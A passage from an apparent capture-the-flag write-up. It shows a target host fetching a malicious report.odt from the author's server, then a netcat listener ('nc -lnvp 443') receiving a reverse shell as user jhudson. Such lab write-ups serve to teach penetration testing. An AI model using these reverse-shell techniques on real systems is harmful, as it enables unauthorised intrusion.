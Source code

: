 ![image-20231024212457644](../img/image-20231024212457644.png)

There’s a request for the document at my server:

    
    
    10.10.11.225 - - [26/Oct/2023 07:00:37] "GET /report.odt HTTP/1.1" 200 -
    

And then a reverse shell at listening `nc` as jhudson:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.225 53300
    bash: cannot set terminal process group (1178586): Inappropriate ioctl for device
    bash: no job control in this shell
    bash: /home/jhudson/.bashrc: Permission denied
    jhudson@gofer:/usr/bin$
    

I’ll [upgrade my shell](https://www.youtube.com/watch?v=DqE6DxqJg8Q) with the
standard trick:

